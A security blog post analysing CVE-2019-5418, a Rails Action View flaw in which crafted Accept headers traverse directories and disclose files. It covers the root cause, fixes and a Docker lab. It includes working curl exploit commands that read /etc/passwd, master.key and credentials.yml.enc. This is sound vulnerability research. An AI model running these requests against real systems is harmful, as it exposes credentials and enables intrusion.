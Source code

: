 ```yaml
---
layout: post
title:  "CVE-2019-5418"
summary: "File Content Disclosure in Action View"
date: 2020-08-09 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

[First published](https://nvd.nist.gov/vuln/detail/CVE-2019-5418) on 27 March 2019

# File Content Disclosure in Action View

## tl;dr
If you render files without templates in your controllers on affected versions of Rails, it is possible for attackers to read arbitrary files on your file system. From there, bad things happen.
{: .critical }

<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        6.0.0.beta3<br/>
        5.2.2.1<br/>
        5.1.6.2<br/>
        5.0.7.2<br/>
        4.2.11.1
      </td>
    </tr>
  </tbody>
</table>

<script id="asciicast-0pfZkSfp8vzXsHpsd8DdgQvsz" src="https://asciinema.org/a/0pfZkSfp8vzXsHpsd8DdgQvsz.js" async></script>

## Weakness

This vulnerability lets an attacker [traverse directory paths](http://cwe.mitre.org/data/definitions/22.html) which can then lead to the [exposure of sensitive information](http://cwe.mitre.org/data/definitions/200.html).

## Vulnerability

Specially crafted `Accept` request headers in combination with a call to endpoints that `render file:` can be used to traverse directory paths and expose sensitive information.

A vulnerable controller will look something like this:

```ruby
class UserController < ApplicationController
  def index
    render file: "#{Rails.root}/some/file"
  end
end
```

The attacking request will look something like this:

{% highlight bash %}
{% raw %}
curl -H 'Accept: ../../../../../../../../etc/passwd{{' http://target/users
{% endraw %}
{% endhighlight %}

Since the target endpoint controller renders files without a specified accept format, then the contents of the file `/etc/passwd` can be read.

## Breakdown

The `ActionView::TemplateRenderer` class will try to resolve a path, that is based on the formats requested in the `Accept` header.[^fn-render]

The attack exploits code in the `ActionView::PathResolver` class, in particular, the way in which template paths are queried in the [find_template_paths](https://github.com/rails/rails/blob/v5.2.1/actionview/lib/action_view/template/resolver.rb#L246-L252) method.

```ruby
def find_template_paths(query)
  Dir[query].uniq.reject do |filename|
    File.directory?(filename) ||
      # deals with case-insensitive file systems.
      !File.fnmatch(query, filename, File::FNM_EXTGLOB)
  end
end
```

Objects of class `Dir` are directory streams, representing directories in the underlying file system. `Dir[query]` is equivalent to calling `Dir.glob([string,...], 0)` which will return an array of matching directories.

The pattern passed to the `glob` method looks like a regexp but is more like a shell glob. The attacker takes advantage of this by passing in a pattern that looks like this:

{% highlight shell %}
{% raw %}
../../../../../../../../etc/passwd{{
{% endraw %}
{% endhighlight %}

So instead of a glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.html,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The addition of the `Accept` header will glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.../../../../../../etc/password{{,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The double `{` is enough to make this a valid pattern. The `../` pattern goes up one directory from wherever the code is called, and repeating them enough times, gets you back to root, high enough to then read in something like `/etc/passwd`. The contents of that file are then cached and rendered back to the user.

The attacker can do more damage though, by reading sensitive files, such as those used by the Rails credentials API. These files typically live in the `#{Rails.root}/config/` directory, and the attacker can use a pattern that looks like this to read them:

{% highlight shell %}
{% raw %}
../../../../../../**/config/master.key{{
{% endraw %}
{% endhighlight %}

The inclusion of a `**` pattern will match directories recursively (without needing to guess the directory layout), and the `config/master.key` pattern should find the `master.key` in the target Rails config directory. If the attacker retrieves that key along with `credentials.yml.enc` from the same directory, they will be able to decrypt and use related credentials in chained attacks.

Of note though, the contents are cached[^fn-cached] so an attacker will need to make multiple requests to different servers or wait for your server to be redeployed with a cold cache. It's also possible to fork a race condition with something like this to retrieve both files:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' \
  http://localhost:3000/users/index & \
curl -H 'Accept: ../../../../../../**/config/credentials.yml.enc{{' \
  http://localhost:3000/users/index
{% endraw %}
{% endhighlight %}

## Fix

<mark>The best fix for this, is to upgrade Rails to one of the patched versions.</mark>

The vulnerability can be mitigated by making sure you render files with a fixed format:

```ruby
render file: "#{Rails.root}/some/file", formats: [:html]
```
You can also monkey patch `ActionDispatch` via your own initializer, which is similar to what the [patched versions](https://github.com/rails/rails/blob/fbe2433be6e052a1acac63c7faf287c52ed3c5ba/actionpack/lib/action_dispatch/http/mime_negotiation.rb#L83-L85) of the `MimeNegotiation` module do to prevent a string containing traverse patterns being accepted in the first place:

```ruby
ActionDispatch::Request.prepend(Module.new do
  def formats
    super().select do |format|
      format.symbol || format.ref == "*/*"
    end
  end
end)
```

In general, it's best to upgrade to a patched version of Rails before monkey patching this yourself. The latter is easily forgotten over time and can cause you all sorts of headaches in future.

# Research

You can re-create this with a [canned CVE environment](https://github.com/correkthorse/rails-cve-testing) using Docker. To build the vulnerable image:

    CVE=CVE-2019-5418 RAILS_VERSION=5.2.1 make build

Then to run it locally, for testing:

    CVE=CVE-2019-5418 make server

Then target it:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' http://localhost:3000/users/index
flag{master}
{% endraw %}
{% endhighlight %}

# References

[^fn-render]: [Analysis for CVE-2019-5418 File Content Disclosure on Rails ](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/)
[^fn-cached]: [CVE-2019–5418: on WAF bypass and caching](https://blog.pentesterlab.com/cve-2019-5418-on-waf-bypass-and-caching-10e93f9a1981)
